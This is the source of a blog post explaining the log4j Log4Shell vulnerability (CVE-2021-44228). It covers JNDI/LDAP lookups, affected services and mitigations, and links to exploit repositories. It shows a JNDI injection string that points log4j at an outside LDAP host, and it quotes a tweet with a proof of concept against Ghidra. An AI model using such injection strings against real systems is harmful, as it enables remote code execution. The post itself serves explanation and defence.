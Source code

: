 ```yaml
---
layout: post
title: "Entry 2"
date: 2021-12-10
permalink: /logs/entry-2
---
```


Yesterday, a high severity vulnerability{% sidenote 1 "[CVE-2021-44228](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} was discovered in the popular Java logging library log4j{% sidenote 2 "[Apache Log4j](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} that could lead to remote code execution (RCE).

{% newthought 'A few notes' %} 

The log4j package uses JNDI{% sidenote 3 "[Java Naming and Directory Interface](https://wiki2.org/en/Java_Naming_and_Directory_Interface){:target='_blank'}{:rel='noopener noreferrer'}" %}. It is a standard API for directory service that allows a Java program to find data (in the form of a Java object) through a directory.

A Java program can use JNDI and LDAP together to find a Java object containing data that it might need. For example, in the standard Java documentation there’s an [example](https://docs.oracle.com/javase/jndi/tutorial/getStarted/examples/directory.html){:target='_blank'}{:rel='noopener noreferrer'} that talks to an LDAP server to retrieve attributes from an object. It uses the URL `ldap://localhost:389/o=JNDITutorial` to find the JNDITutorial object from an LDAP server running on the same machine (localhost) on port 389 and goes on to read attributes from it.

As the tutorial says _“If your LDAP server is located on another machine or is using another port, then you need to edit the LDAP URL”_. Thus the LDAP server could be running on a different machine and potentially anywhere on the Internet. That flexibility means that if an attacker could control the LDAP URL they’d be able to cause a Java program to load an object from a server under their control.

But in the case of log4j an attacker can control the LDAP URL by causing log4j to try to write a string like ${jndi:ldap://example.com/a}. If that happens then log4j will connect to the LDAP server at example.com and retrieve the object.

This happens because log4j contains [special syntax](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution){:target='_blank'}{:rel='noopener noreferrer'} in the form ${prefix:name} where prefix is one of a number of different [Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html){:target='_blank'}{:rel='noopener noreferrer'} where name should be evaluated. For example, ${java:version} is the current running version of Java.

{% newthought 'Impact' %}

Many services are vulnerable to this exploit. Cloud services like Amazon, Steam, Apple iCloud, Cloudflare, Twitter etc. and apps like Druid, Minecraft, ElasticSearch, Struts2, Solr have already been found to be vulnerable. 

Ghidra's vulnerable too:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Ghidra&#39;s vulnerable to log4j:<br>__attribute__((__section__(&quot;.note.${jndi:ldap://127.0.0.1:1234/abc}&quot;)))<br>int a = 1;<br>int main(){}<br>$ gcc hello.c<br>$ nc -l 1234<br>Load into Ghidra; it connects to 127.0.0.1:1234.<br>Ghidra 10.0.2, macOS OpenJDK Corretto 11.0.4.11.1<a href="https://t.co/Qu1psCjtY6">https://t.co/Qu1psCjtY6</a></p>&mdash; Zhuowei Zhang (@zhuowei) <a href="https://twitter.com/zhuowei/status/1469186818549719042?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

And the gist of it comes down to:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">The lesson of Java is that some of the best engineers at the time created a secure byte-code VM and JIT, only for Design-By-Committee to come in and say &quot;maybe someone would want the Logger to load remote code via JNDI and LDAP. Let&#39;s add that!&quot;.</p>&mdash; postmodern (@postmodern_mod3) <a href="https://twitter.com/postmodern_mod3/status/1469401307005939712?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

{% newthought 'Mitigation' %}

1. Upgrading to [new version](https://logging.apache.org/log4j/2.x/download.html){:target='_blank'}{:rel='noopener noreferrer'}.

2. If you can't upgrade, set the property:

{% highlight bash %}
log4j2.formatMsgNoLookups=true
{% endhighlight %}

3. If none of the above works, you can remove the `JndiLookup` class from the classpath:
{% highlight bash %}
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
{% endhighlight %}
This command will remove the class from the log4j-core.

{% newthought 'Keypoints' %}

The underlying truth behind impact is:

{% maincolumn 'https://imgs.xkcd.com/comics/dependency.png' '<em>Dependency</em>, from [xkcd](https://xkcd.com/2347/){:target="_blank"}{:rel="noopener noreferrer"}' %}

----

{% newthought 'Further Information' %}

- [Log4Shell: RCE 0-day exploit found in log4j2, a popular Java logging package](https://www.lunasec.io/docs/blog/log4j-zero-day/){:target='_blank'}{:rel='noopener noreferrer'}
- [https://news.ycombinator.com/item?id=29504755](https://news.ycombinator.com/item?id=29504755){:target='_blank'}{:rel='noopener noreferrer'}
- [JNDI injection and utilization after 8u191](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US){:target='_blank'}{:rel='noopener noreferrer'}
- [Inside the log4j2 vulnerability (CVE-2021-44228)](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/){:target='_blank'}{:rel='noopener noreferrer'}
- [Log4j RCE 0-day mitigation](https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/){:target='_blank'}{:rel='noopener noreferrer'}
- [Apache-Log4j Exploit](https://github.com/tangxiaofeng7/apache-log4j-poc){:target='_blank'}{:rel='noopener noreferrer'}
- [Log4j Attack Surface](https://github.com/YfryTchsGD/Log4jAttackSurface){:target='_blank'}{:rel='noopener noreferrer'}
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java){:target='_blank'}{:rel='noopener noreferrer'}




 